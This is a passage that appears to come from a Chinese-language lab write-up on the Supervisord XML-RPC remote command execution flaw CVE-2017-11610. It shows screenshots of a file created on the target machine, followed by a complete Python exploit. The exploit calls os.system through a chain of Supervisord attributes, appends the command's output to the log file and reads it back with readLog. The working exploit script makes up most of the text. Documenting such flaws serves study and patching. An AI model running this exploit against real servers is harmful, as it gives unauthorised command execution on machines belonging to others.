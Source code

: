 ![02](./img/supervisor_CVE-2017-11610/02.png)

可以看到靶机中新建文件成功：

![01](./img/supervisor_CVE-2017-11610/01.png)

上面 poc 没有回显，可以将命令执行的结果写入 log 文件中，再调用 Supervisord 自带的 readLog 方法读取 log 文件，将结果读出来，如下：。

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```
